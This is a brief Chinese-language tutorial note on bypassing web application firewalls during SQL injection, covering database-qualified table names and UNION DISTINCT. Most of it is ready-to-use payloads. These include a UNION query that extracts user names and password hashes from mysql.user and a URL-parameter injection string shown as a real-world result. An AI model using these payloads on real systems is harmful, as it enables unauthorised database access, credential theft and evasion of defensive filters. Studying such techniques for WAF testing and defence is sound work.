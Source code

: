 # 添加库名绕过 

有些waf的拦截规则并不会拦截带上库名的表查询，在遇到waf的时候可以做一下尝试

```sql
select user,host from mysql.user;
select * from users where id=-1 union select 1,2,3,concat(user,authentication_string) from mysql.user;
```

# 去重绕过★ 

在 mysql 查询可以使用 distinct 去除查询的重复值。可以利用这点突破 waf 拦截

```sql
select * from users where id=-1 union distinct select 1,2,3,version() from users;
```

实战效果

```sql
?id=-1' union distinct select 1,2,version() from users--+
```

![image.png](04.SQL%E6%B3%A8%E5%85%A5%E7%BB%95%E8%BF%87/1675755846927-fbcb653d-4bd9-4b23-b26d-b2f41e8f2d51.png)

匹配规则分析

![image.png](04.SQL%E6%B3%A8%E5%85%A5%E7%BB%95%E8%BF%87/1675756428782-61e9de20-3997-455a-826d-c30ec39e8014.png)
